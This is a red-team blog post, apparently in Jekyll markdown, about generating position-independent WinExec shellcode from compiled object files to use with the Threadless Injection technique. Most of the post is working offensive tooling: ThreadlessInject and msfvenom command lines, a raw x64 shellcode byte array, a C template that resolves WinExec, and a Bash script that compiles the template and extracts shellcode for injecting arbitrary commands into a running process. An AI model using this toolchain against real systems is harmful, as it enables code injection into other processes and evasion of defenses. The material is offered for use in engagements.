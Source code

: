 ```yaml
---
layout: post
title: "Adopting Position Independent Shellcodes from Object Files for Threadless Injection"
date: 2023-02-14 05:00:00 +0300
author: snovvcrash
tags: [maldev, threadless-injection, function-stomping, shellcode-injection, shellcode-generation, pic, winexec, msfvenom]
---
```


In this blog I will describe a way to automate the generation of Position Independent Shellcodes from Object Files (cc @NinjaParanoid) to be used along with Threadless Injection technique (cc @\_EthicalChaos\_).

<!--cut-->

[![banner.png](/assets/images/pic-generation-for-threadless-injection/banner.png)](/assets/images/pic-generation-for-threadless-injection/banner.png)
{:.center-image}

* TOC
{:toc}

## Function Stomping / Threadless Injection

One of the items from my endless TODO-list that I never crossed out was the topic of [Function Stomping](https://github.com/Idov31/FunctionStomping) by [Ido Veltzman](https://twitter.com/Idov31). Luckily, [Ceri Coburn](https://twitter.com/_EthicalChaos_) [presented](https://twitter.com/_EthicalChaos_/status/1624520767483310081) an awesome [research](https://github.com/CCob/ThreadlessInject/blob/master/Needles%20without%20the%20Thread.pptx) on Threadless Shellcode Injection technique accompanying a ready-to-use [injector in C#](https://github.com/CCob/ThreadlessInject) which made me get back to that long-forgotten TODO.

## Pop-the-Calc Shellcode

While playing with ThreadlessInject and [porting](https://twitter.com/snovvcrash/status/1624944014263713796) it to the [DInvoke](https://github.com/TheWover/DInvoke) API, one of the obvious desires of mine was to test it with a different shellcode. As a Proof-of-Concept Ceri provides a classic [Pop-the-Calc](https://github.com/CCob/ThreadlessInject/blob/c41df117e74b3413a8ed12ba5882058057253aac/Program.cs#L73-L82) shellcode which works smoothly but may not be enough during a real engagement:

```powershell
Start-Process notepad; .\ThreadlessInject.exe -p (Get-Process notepad).Id -d kernel32.dll -e OpenProcess
```

[![threadless-inject-calc.png](/assets/images/pic-generation-for-threadless-injection/threadless-inject-calc.png)](/assets/images/pic-generation-for-threadless-injection/threadless-inject-calc.png)
{:.center-image}

Hackers looove popping calcs!
{:.quote}

Well, what will a hacker do to generate a shellcode? Summon `msfvenom`, of course:

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o msf-calc.bin
```

Providing the `msf-calc.bin` shellcode to ThreadlessInject.exe with `-x` option expectedly results in exiting the target process:

```powershell
Start-Process notepad; .\ThreadlessInject.exe -x .\msf-calc.bin -p (Get-Process notepad).Id -d kernel32.dll -e OpenProcess
```

[![threadless-inject-msf.gif](/assets/images/pic-generation-for-threadless-injection/threadless-inject-msf.gif)](/assets/images/pic-generation-for-threadless-injection/threadless-inject-msf.gif)
{:.center-image}

Unwanted termination of parent process with MSF shellcode
{:.quote}

Changing the `EXITFUNC=` option during the generation process doesn't seem to be helpful:

```bash
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=none -f raw -o msf-calc-none.bin
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=process -f raw -o msf-calc-process.bin
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f raw -o msf-calc-thread.bin
```

It's a [known](https://rastating.github.io/altering-msfvenom-exec-payload-to-work-without-exitfunc/) thing that MSF-exec payloads are better to be started from a fresh thread 'cause the shellcode doesn't treat the stack gently. Furthermore, a hint about the required shellcode behavior is kindly left by the author of ThreadlessInject [in the comments](https://github.com/CCob/ThreadlessInject/blob/master/Program.cs#L73):

```csharp
//x64 calc shellcode function with ret as default if no shellcode supplied
static byte[] x64 = {
    0x53, 0x56, 0x57, 0x55, 0x54, 0x58, 0x66, 0x83, 0xE4, 0xF0, 0x50, 0x6A,
    0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x29, 0xD4,
    0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10,
    0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C,
    0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B,
    0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81,
    0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C,
    0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7,
    0x48, 0x83, 0xC4, 0x68, 0x5C, 0x5D, 0x5F, 0x5E, 0x5B, 0xC3 };
```

That is to say, the `ret` instruction should be supplied when the shellcode's job is done in order to return the execution flow back to the caller (i. e., [the assembly stub](https://github.com/CCob/ThreadlessInject/blob/c41df117e74b3413a8ed12ba5882058057253aac/Program.cs#L117)) as well as proper stack alignment should be performed with registers preserved. So let's take a look at both shellcodes side-by-side with objdump.

[![pop-the-calc-comparison.png](/assets/images/pic-generation-for-threadless-injection/pop-the-calc-comparison.png)](/assets/images/pic-generation-for-threadless-injection/pop-the-calc-comparison.png)
{:.center-image}

Comparing calc shellcodes
{:.quote}

As we can see no `ret` is observed within the MSF shellcode... Dunno whether the dynamic way of MSF generator puts the `CMD=` value onto the stack (via that `call rbp` instruction) does also negatively impacts our situation but we definitely don't get desired behavior – the parent process dies.

So what can we do about it?

## Where's the <strike>Detonator</strike>Generator?

Honestly, I don't know any other FOSS shellcode generator besides `msfvenom` so I started to google :man_shrugging: Btw, the builtin default shellcode for ThreadlessInject is as old as time and can be found in a numerous GitHub repos and [gists](https://gist.github.com/dmchell/51b8c040402e6f13bacbed317335daea#file-csinjcy-L35).

Among other things, I considered the following options:

* Look for other less-known open source shellcode generators for Windows x64 – failed due to a total lack of them (though [win-x86-shellcoder](https://github.com/ommadawn46/win-x86-shellcoder) seems to be a nice project for x86).
* Use an existing Pop-the-Calc `.asm` file as template for generating a WinExec shellcode with an arbitrary argument (command) – failed due me being lazy. Good examples of such 'static' calc shellcodes (with a static `lpCmdLine` argument for WinExec) are [win-exec-calc-shellcode](https://github.com/peterferrie/win-exec-calc-shellcode) and [x64win-DynamicNoNull-WinExec-PopCalc-Shellcode](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode) by [Bobby Cooke](https://twitter.com/0xBoku).
* Play with popular PE → shellcode techniques like [sRDI](https://github.com/monoxgas/sRDI), [donut](https://github.com/TheWover/donut), [pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode), etc.

While testing the 3rd option I came along this terrific article by [@KlezVirus](https://twitter.com/KlezVirus) – [From Process Injection to Function Hijacking](https://klezvirus.github.io/RedTeaming/AV_Evasion/FromInjectionToHijacking/) – which covers Function Stomping topic **in great depth** (one more blogpost in my TODOs).

As I was looking for a quick example to be used with ThreadlessInject, my attention was caught by one of the references to another blog of maldev magician [Chetan Nayak](https://twitter.com/NinjaParanoid) – [Executing Position Independent Shellcode from Object Files in Memory](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/) – which we shall focus on further.

## PIC from Object Files

In his blog Chetan provides a way to build a C function with a small assembly stub for proper stack alignment and returning to the caller gracefully. With the ability to dynamically resolve exported symbols of WinExec (which resides within `kernel32.dll`) we can extract the opcodes from the compiled binary and use them as a Position Independent shellcode. That's exactly what we need!

Based on the given example of constructing the `getprivs` function I shall git clone his demo [repository](https://github.com/paranoidninja/PIC-Get-Privileges) and write a template to execute a command of my choice using WinExec:

```c
// template.c

#include "addresshunter.h"
#include <stdio.h>

typedef UINT(WINAPI* WINEXEC)(LPCSTR, UINT);

void exec() {
    UINT64 kernel32dll;
    UINT64 WinExecFunc;

    kernel32dll = GetKernel32();

    CHAR winexec_c[] = {'W','i','n','E','x','e','c', 0};
    WinExecFunc = GetSymbolAddress((HANDLE)kernel32dll, winexec_c);

    CHAR cmd_c[] = {'<CMD>'};
    ((WINEXEC)WinExecFunc)(cmd_c, 0);
}
```

Then with a bit of Bash magic for automation we get a working alternative for the `windows/x64/exec` MSF module:

```bash
#!/usr/bin/env bash

CMD=`echo "${1}" | grep -o . | sed -e ':a;N;$!ba;s/\n/\x27,\x27/g'`
CMD="${CMD//\\/\\\\\\\\}"
#echo $CMD

cat template.c | sed "s#<CMD>#${CMD}#g" > exec.c

nasm -f win64 adjuststack.asm -o adjuststack.o

x86_64-w64-mingw32-gcc exec.c -Wall -m64 -ffunction-sections -fno-asynchronous-unwind-tables -nostdlib -fno-ident -O2 -c -o exec.o -Wl,-Tlinker.ld,--no-seh

x86_64-w64-mingw32-ld -s adjuststack.o exec.o -o exec.exe

echo -e `for i in $(objdump -d exec.exe | grep "^ " | cut -f2); do echo -n "\x$i"; done` > exec.bin

rm exec.exe exec.o exec.c adjuststack.o
```

Generate and execute:

```bash
./generate.sh 'cmd /c "whoami /all" > C:\Windows\Tasks\out.txt'
```

[![threadless-inject-exec.png](/assets/images/pic-generation-for-threadless-injection/threadless-inject-exec.png)](/assets/images/pic-generation-for-threadless-injection/threadless-inject-exec.png)
{:.center-image}

Execution of customly generated shellcode
{:.quote}

Happy hacking!

## References

* [https://github.com/CCob/ThreadlessInject](https://github.com/CCob/ThreadlessInject)
* [https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/)
* [https://github.com/paranoidninja/PIC-Get-Privileges](https://github.com/paranoidninja/PIC-Get-Privileges)
* [https://github.com/Idov31/FunctionStomping](https://github.com/Idov31/FunctionStomping)
* [https://klezvirus.github.io/RedTeaming/AV_Evasion/FromInjectionToHijacking/](https://klezvirus.github.io/RedTeaming/AV_Evasion/FromInjectionToHijacking/)
* [https://rastating.github.io/altering-msfvenom-exec-payload-to-work-without-exitfunc/](https://rastating.github.io/altering-msfvenom-exec-payload-to-work-without-exitfunc/)
* [https://github.com/ommadawn46/win-x86-shellcoder](https://github.com/ommadawn46/win-x86-shellcoder)
* [https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode)
